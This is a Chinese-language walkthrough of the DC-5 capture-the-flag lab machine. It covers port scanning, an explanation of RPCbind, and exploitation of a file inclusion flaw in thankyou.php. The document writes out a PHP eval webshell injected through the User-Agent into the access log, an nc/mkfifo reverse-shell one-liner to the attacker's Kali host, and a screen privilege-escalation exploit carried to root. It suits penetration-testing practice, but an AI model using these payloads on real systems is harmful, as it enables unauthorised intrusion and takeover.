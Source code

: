 # DC-5
照例扫描网段获取ip,-sn
192.168.111.138
nmap扫描
```
nmap -T4 -sS -p- -sV 192.168.111.138
```
![](vx_images/397953960252724.png)
先看80端口
页面上没有什么东西,扫描一下目录,看看有没有后台
dirsearch扫出来footer.php,但感觉没啥用
![](vx_images/87952553919252.png)

认识一下rpc:
```
RPCbind 是什么？
简单来说，​RPCbind 是一个“服务的中介”或“端口映射器”​。

想象一下一个公司的大楼：

​大楼的总机号码​ = ​服务器的 IP 地址​
​各个部门（如销售、财务、技术支持）的分机号​ = ​服务器上各个 RPC 服务实际使用的端口​
​前台接线员​ = ​RPCbind 服务​
现在，如果你想联系“技术支持部”（比如 NFS 服务），但你不知道它的分机号（端口号）是多少，你会怎么做？你会先打电话给总机，问接线员：“请帮我转接技术支持部。”

​RPCbind 干的就是这个接线员的活儿。​​ 它运行在一个众所周知的端口上（端口 111），客户端程序首先连接到这里，询问：“嘿，我想用的 NFS 服务现在在哪个端口上运行？” RPCbind 查一下自己的表，回复说：“NFS 服务在端口 2049。” 然后客户端再去连接真正的端口 2049。

​技术定义：​​
RPCbind 是 ​ONC RPC​ 协议的一个实现。ONC RPC 是一种远程过程调用协议，允许客户端在一台远程服务器上执行函数，就像在本地调用一样。NFS、NIS 等重要服务都构建在 RPC 机制之上。
```
```
# 使用 nmap 的 rpcgen 脚本进行枚举
nmap -sV -p 111 --script=rpcinfo <目标IP>

# 或者使用 Linux 自带的 rpcinfo 命令（如果已安装）
rpcinfo -p <目标IP>

```
![](vx_images/313893668266828.png)
但是也没啥突破口
没头绪,看别人才知道,突破口是文件包含
footer.php的内容在thankyou.php中被包含
![](vx_images/13298872502.png)
怀疑包含的参数能人为控制,去爆破参数,测试包含passwd
![](vx_images/521142558095919.png)
确定参数为file
![](vx_images/241373655678192.png)
看看能不能利用伪协议来写马
data://,php://input都没成功
试一下文件包含
日志记录了UA头,在UA头处写shell:hackhere<?php @eval($_POST[1]);?>
成功记录
![](vx_images/382960309919861.png)
连接蚁剑,连不上可能是连接超时的问题
![](vx_images/523781341923952.png)
反弹shell到kali上
这里DC上有nc
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.111.128 4444 >f
```
![](vx_images/321434219098680.png)
接下来尝试提权
尝试suid提权
```
find / -perm -4000 -exec ls -ld {} \; 2>/dev/null
```
![](vx_images/20873825029622.png)
好像没有什么可以利用的
searchexploit screen 发现有权限提升
![](vx_images/427513688540932.png)
将文件上传上去执行(也可以通过webshell)
先找到能写文件的位置/tmp下
```
目标机:nc -lvnp 5555 >POC.sh
kali:nc 192.168.111.138 5555< 41154.sh
```
然后赋予脚本权限
chmod 7777 POC.sh
执行
![](vx_images/236792871464852.png)
成功获得root权限
![](vx_images/195563548182080.png)